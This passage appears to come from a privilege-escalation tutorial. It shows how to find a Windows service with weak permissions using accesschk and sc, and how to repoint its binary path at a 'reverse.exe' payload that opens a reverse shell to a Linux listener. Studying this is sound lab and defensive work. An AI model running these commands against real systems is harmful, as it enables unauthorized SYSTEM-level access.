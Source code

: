 This way we can get the reverse connection in linux of window machine.

## 2. Service Exploits
#service
### Insecure Service Permissions
#bin_path
On `Windows machine`, when escalating our privileges we go through the service that run under system privileges. Here services are like `binary executables` in linux. So inorder to execute our services we require the services to restart. Before going deep dive into service exploit let's try to check the services are run by `user` for that we use `accesschk.exe` . Download [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
`AccessChk` is a command-line tool for viewing the effective permissions on files, registry keys, services, processes, kernel objects etc.
```bash
#This give the detail about services that we have read/write permission
C:\gr4n173\accesschk.exe -uwcqv user *
RW daclsvc
 		SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
|	Permissions		| Use of the services	|
| :----					   |    :-----:						 |	
|SRVICE\_CHANGE\_CONFIG |Can reconfigure the service binary|
| WRITE\_DAC |Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG|
| WRITE\_OWNER|Can become owner, reconfigure permissions|
|GENERIC\_WRITE|Inherits SERVICE\_CHANGE\_CONFIG|
|GENERIC\_ALL|Inherits SERVICE\_CHANGE\_CONFIG|

Now inorder to check under what privileges a system runs. For that we check for specific service `daclsvc`.
```bash
C:\gr4n173> sc qc daclsvc
SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
where:- 
`sc: Service Sontroller`
`qc: query configuration`
Now inorder exploit that service we have to change the `Binpath` of service `daclsvc` with the path of our `reverse.exe`.
```bash
C:\gr4n173> sc config daclsvc binpath="\"C:\gr4n173\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```
Since `binpath` is changed now we only have to do is run the service again along with listner set in `linux` and we are in.
```bash
```